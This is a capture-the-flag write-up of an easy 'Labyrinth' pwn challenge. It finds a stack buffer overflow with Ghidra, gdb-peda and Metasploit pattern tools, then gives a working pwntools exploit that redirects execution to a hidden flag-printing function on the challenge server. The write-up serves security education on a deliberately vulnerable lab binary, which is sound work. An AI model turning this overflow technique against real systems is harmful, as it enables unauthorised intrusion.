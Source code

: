 # [Pwn - easy] Labyrinth

In collaboration with [Pierre Vigier](https://pierre-vigier.github.io/)

A 64-bit binary file is given, and the equivalent made available via TCP.

```bash
┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ file labyrinth
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped

┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ checksec --file=labyrinth
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   83 Symbols	  No	0		4		labyrinth
```

Opening the binary with [Ghidra](https://ghidra-sre.org/) reveals that this binary is about buffer overflow via `fgets` reading `0x44` bytes.

![ghidra](./img/pwn_labyrinth_1.png)

At the adress `0x00401255` there's an `escape_plan` function that will read the flag from file and print it.

![escape_plan](./img/pwn_labyrinth_2.png)

The aim is thus to reach `fgets` by inputing `069`, then overflow `local_38` in order to control the `RIP` Instruction Pointer. The value to set in `RIP` will be an address in the `escape_plan` 
function, around the address `0x00401255`. Since the binary is a 64-bits `LSB` (Little Endian, Least Significant Byte), addresses will need to be reversed and be on 8 octets: for instance here 
`\x55\x12\x40\x00\x00\x00\x00\x00`.

Giving it a try with [gdb-peda](https://github.com/longld/peda), with a pattern of length `68` (the `0x44` in `fgets`), gives us the info that `RBP` is overriden at an offset of 48.

```bash
┌──(vagrant㉿kali)-[~]
└─$ msf-pattern_create -l 68
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac

┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ gdb ./labyrinth
[...]
gdb-peda$ r <<< $(python -c "print('069\n'+'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac')")
[...]

▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door:

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100

>>
You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>>
[-] YOU FAILED TO ESCAPE!


Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ea7a37 (<write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x7fffffffc0d0 --> 0x6d31333b315b1b0a
RDI: 0x7fffffffbfb0 --> 0x7ffff7df50d0 (<funlockfile>:	endbr64)
RBP: 0x6241376241366241 ('Ab6Ab7Ab')
RSP: 0x7fffffffe228 ("8Ab9Ac0Ac1A")
RIP: 0x401602 (<main+509>:	ret)
R8 : 0x23 ('#')
R9 : 0x7fffffff
R10: 0x0
R11: 0x246
R12: 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
R13: 0x401405 (<main>:	push   rbp)
R14: 0x0
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4015f7 <main+498>:	call   0x4010c0 <fprintf@plt>
   0x4015fc <main+503>:	mov    eax,0x0
   0x401601 <main+508>:	leave
=> 0x401602 <main+509>:	ret
   0x401603:	cs nop WORD PTR [rax+rax*1+0x0]
   0x40160d:	nop    DWORD PTR [rax]
   0x401610 <__libc_csu_init>:	push   r15
   0x401612 <__libc_csu_init+2>:	lea    r15,[rip+0x2727]        # 0x403d40
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe228 ("8Ab9Ac0Ac1A")
0008| 0x7fffffffe230 --> 0x413163 --> 0x0
0016| 0x7fffffffe238 --> 0x401405 (<main>:	push   rbp)
0024| 0x7fffffffe240 --> 0x100000000
0032| 0x7fffffffe248 --> 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
0040| 0x7fffffffe250 --> 0x0
>0048| 0x7fffffffe258 --> 0xc4cd354ce8e5d3cf
0056| 0x7fffffffe260 --> 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401602 in main ()
```

![escape_plan](./img/pwn_labyrinth_3.png)

```bash
┌──(vagrant㉿kali)-[~]
└─$ msf-pattern_offset  -l 68 -q 6241376241366241
[*] Exact match at offset 48
```

Since `RIP` is 8 bytes from `RBP`, in order to override it the first part of input is `"069\n" + "A"*48 + "B*8"`. However we hit a snag with the adress to override `RIP` with: the first instruction of `escape plan` is `push %rbp`.

```bash
┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ objdump -D labyrinth | grep -A5 escape_plan
0000000000401255 <escape_plan>:
  401255:	55                   	push   %rbp
  401256:	48 89 e5             	mov    %rsp,%rbp
  401259:	48 83 ec 10          	sub    $0x10,%rsp
  40125d:	bf 0a 00 00 00       	mov    $0xa,%edi
  401262:	e8 c9 fd ff ff       	call   401030 <putchar@plt>
```

Since it was overridden by a bunch of Bs, it leads to a SEGFAULT. Let's take the next instruction's address: `0x401256`. The input becomes: `"069\n" + "A"*48 + "B*8" + "\x56\x12\x40\x00\x00\x00\x00\x00"`. Testing it locally with `gdb-peda` gives the flag:

```bash
gdb-peda$ r <<< $(python -c "print('069\n'+'A'*48 + 'B'*8 + '\x56\x12\x40\x00\x00\x00\x00\x00')")
[...]
Congratulations on escaping! Here is a sacred spell to help you continue your journey:
HTB{f4k3_fl4g_4_t35t1ng}
```

The final exploit looks like:

```python
from pwn import *

r = remote('138.68.162.218',30843)
lol = r.readuntil(b'>> ')
# print(lol)
r.send(b'069' + b"\n")
lol = r.readuntil(b'>> ')
r.send(b'A'*48 + b'B'*8 + b'\x56\x12\x40\x00\x00\x00\x00\x00')
r.send(b"\n")
lol=r.readall()
print(lol)
r.close()
```

And gives the flag!

![flag](./img/pwn_labyrinth_4.png)
